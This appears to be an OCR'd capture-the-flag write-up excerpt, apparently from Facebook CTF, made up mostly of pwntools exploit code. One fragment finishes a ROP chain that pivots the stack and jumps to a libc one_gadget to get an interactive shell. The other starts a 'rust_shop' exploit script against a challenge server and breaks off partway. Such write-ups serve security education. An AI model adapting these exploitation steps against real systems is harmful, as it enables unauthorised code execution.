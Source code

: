 ```python
  magic = libc + 0x4f322
  pop_rsp_1 = 0x0000000000400980

  rank(19,pop_rsp_1)
  rank(20,0x602100)
  r.recvuntil("> ")
  raw_input("@")
  r.sendline("3" + "\x00"*7 + p64(magic))
  r.interactive()
```

### rust_shop

Limbo found crash and probability to get the flag......

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
import sys
import time
import random
host = 'challenges.fbctf.com'
port = 1342

binary = "./rusty_shop"
context.binary = binary
elf = ELF(binary)
try:
  libc = ELF("./libc.so.6")
  log.success("libc load success")
  system_off = libc.symbols.system
  log.success("system_off = "+hex(system_off))
except:
  log.failure("libc not found !")

def c(name,Description,Price):
  r.recvuntil("t\n")
  r.sendline("1")
  r.recvuntil(": ")
  r.sendline(name)
  r.recvuntil(": ")
  r.sendline(str(Description))
  r.recvuntil(": ")
  r.sendline(str(Price))
  pass

def a(index,count):
  r.recvuntil("t\n")
  r.sendline("4")
  r.recvuntil(": ")
  r.sendline(str(index))
  r.recvuntil(": ")
  r.sendline(str(count))
  pass


def show(index):
  r.recvuntil("t\n")
  r.sendline("3")
  r.recvuntil(": ")
  r.sendline(str(index))

def check():
```
